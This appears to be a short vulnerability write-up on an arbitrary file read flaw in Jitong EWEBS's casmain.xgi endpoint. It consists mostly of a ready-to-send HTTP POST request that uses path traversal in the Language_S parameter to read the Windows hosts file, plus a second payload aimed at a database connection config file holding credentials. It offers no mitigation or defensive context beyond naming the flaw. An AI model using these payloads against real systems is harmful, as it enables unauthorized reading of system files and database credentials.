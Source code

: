# Jitong EWEBS casmain.xgi arbitrary file reading vulnerability

## Vulnerability Description

Jitong EWEBS casmain.xgi arbitrary file reading vulnerability, where attackers can read any file through the vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Jitong EWEBS</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210615125923544.png)



The vulnerability request package is

```plain
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210615130137932.png)



You can use testweb.php information to leak and read sensitive information

```plain
Language_S=../../Data/CONFIG/CasDbCnn.dat
```
